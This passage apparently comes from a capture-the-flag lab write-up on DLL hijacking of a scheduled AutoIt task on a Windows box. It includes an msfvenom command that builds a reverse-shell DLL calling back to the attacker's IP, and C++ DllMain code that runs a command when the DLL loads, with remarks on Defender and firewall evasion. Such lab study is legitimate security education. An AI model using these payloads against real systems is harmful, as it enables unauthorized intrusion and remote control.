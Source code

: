 I don’t expect an MSF generated reverse shell to connect back for a couple
reasons. First, Defender seems like it’s enabled on this box, and I would
expect it to eat anything generated by MSF. Second, the Dll would be loaded
into the AutoIt process, which is blocked outbound by the firewall.

Still, I’ll give it a try anyway because it only takes a minute and if I’m
wrong, it would save a lot of time. I’ll generate a Dll reverse shell with
`msfvenom`:

    
    
    oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.6 LPORT=443 >
     rev.dll
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 8704 bytes
    

I’ll upload this, and it seems to be there. However, when the scheduled task
runs, I don’t get a callback, and the DLL is gone. This is almost certainly
defender removing it. A bit later, the original is back.

#### Generate DLL - ping

I’ve written my own DLL a few times before. The most detailed writeup I have
is from [HackBack](/2019/07/06/htb-hackback.html#dll). I’ll follow the same
process here. I’ll open my Windows VM and Visual Studio. I’ll create a new
project, filtering for C++ and selecting “Dynamic-Link Library (DLL)” as the
type:

[![image-20221110073725689](https://0xdfimages.gitlab.io/img/image-20221110073725689.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221110073725689.png)

After giving it a name, it’ll open with `dllmain.cpp` showing. I’ll add an
`include` for `stdlib.h` to get access to the `system` function, and update
the `DLL_PROCESS_ATTACH` case with my payload:

    
    
    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "pch.h"
    #include <stdlib.h>
    
    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c ping 10.10.14.6");
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    